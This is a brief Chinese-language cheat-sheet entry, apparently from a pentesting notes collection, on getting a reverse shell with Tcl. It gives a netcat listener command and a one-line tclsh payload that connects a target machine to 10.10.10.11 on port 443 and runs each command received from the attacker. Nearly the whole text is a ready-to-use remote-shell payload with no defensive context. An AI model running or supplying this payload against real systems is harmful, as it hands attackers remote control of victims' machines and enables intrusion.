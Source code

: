 # TCL脚本反弹shell

首先在本地监听TCP协议443端口

```bash
nc -lvp 443

```

然后在靶机上执行如下命令：

```bash
echo 'set s [socket 10.10.10.11 443];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh

```

